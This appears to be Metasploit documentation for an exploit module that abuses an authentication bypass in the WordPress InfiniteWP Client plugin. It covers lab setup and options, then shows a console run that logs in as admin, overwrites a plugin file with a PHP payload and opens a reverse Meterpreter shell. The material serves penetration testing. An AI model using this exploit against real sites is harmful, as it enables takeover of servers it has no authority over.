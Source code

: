 ## Vulnerable Application

### Description

This module exploits an authentication bypass in the WordPress InfiniteWP Client
plugin to log in as an administrator and execute arbitrary PHP code by
overwriting the file specified by `PLUGIN_FILE`.

The module will attempt to retrieve the original `PLUGIN_FILE` contents and
restore them after payload execution. If `VerifyContents` is set, which is the
default setting, the module will check to see if the restored contents match the
original.

Note that a valid administrator username is required for this module.

WordPress >= 4.9 is currently not supported due to a breaking WordPress API
change. Tested against 4.8.3.

### Setup

1. Install WordPress 4.8.3 or older
2. Download <https://downloads.wordpress.org/plugin/iwp-client.1.9.4.4.zip>
3. Follow <https://wordpress.org/plugins/iwp-client/#installation>

### Targets

```
Id  Name
--  ----
0   InfiniteWP Client < 1.9.4.5
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**USERNAME**

Set this to a known, valid administrator username. Authentication will be
bypassed for this user.

**PLUGIN_FILE**

Set this to a plugin file to insert the payload into, relative to the plugins
directory, which is normally `/wp-content/plugins`. The file must exist and be
writable by the web user. It will be overwritten and later restored.

**VerifyContents**

Verify that the restored contents of `PLUGIN_FILE` match the original. This is
the default setting.

## Scenarios

### InfiniteWP Client 1.9.4.4 on WordPress 4.8.3

```
msf5 > use exploit/unix/webapp/wp_infinitewp_auth_bypass
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > show missing

Module options (exploit/unix/webapp/wp_infinitewp_auth_bypass):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set rport 8000
rport => 8000
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf5 exploit(unix/webapp/wp_infinitewp_auth_bypass) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] WordPress 4.8.3 is a supported target
[*] Found version 1.9.4.4 in the custom file
[+] The target appears to be vulnerable.
[*] Bypassing auth for admin at http://127.0.0.1:8000/
[+] Successfully obtained cookie for admin
[*] Cookie: wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7C3f03c999c52281e3da48bef702b8c8780c3f041b2bba9f222f5d9756cbb18541; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CgtWIC1eZeuTo2twb615tUCpB4LEUzucWE5qaBl5dgDg%7Ca0f3f416f7c60a7e0ea1b17af88d4a5e38d96141451f94fe27f605806f03f0c2; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_sec_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7C5ed6dd8146701a38b741bf98cde81cc2b67736b88ea80a10ceba8cf5326b949e; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=admin%7C1581271885%7CsVlsTRrZ8s8PgSudfIbMXr16rVrlnVz28mENB1jRSOP%7Cfeffe683bdfaaa670102e6564130394440510bf97e1ad09713ef1c3aa5627bfc;
[+] Successfully logged in as admin
[*] Retrieving original contents of /wp-content/plugins/index.php
[+] Successfully retrieved original contents of /wp-content/plugins/index.php
[*] Contents:
<?php
// Silence is golden.
[*] Overwriting /wp-content/plugins/index.php with payload
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Successfully overwrote /wp-content/plugins/index.php with payload
[*] Requesting payload at /wp-content/plugins/index.php
[*] Restoring original contents of /wp-content/plugins/index.php
[*] Sending stage (38288 bytes) to 192.168.56.1
[*] Acquired a plugin edit nonce: 74cde501ca
[*] Edited plugin file index.php
[+] Current contents of /wp-content/plugins/index.php match original!
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.1:51923) at 2020-02-07 12:11:28 -0600

meterpreter > getuid
Server username: www-data (33)
meterpreter > sysinfo
Computer    : c7f8fbe7b083
OS          : Linux c7f8fbe7b083 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
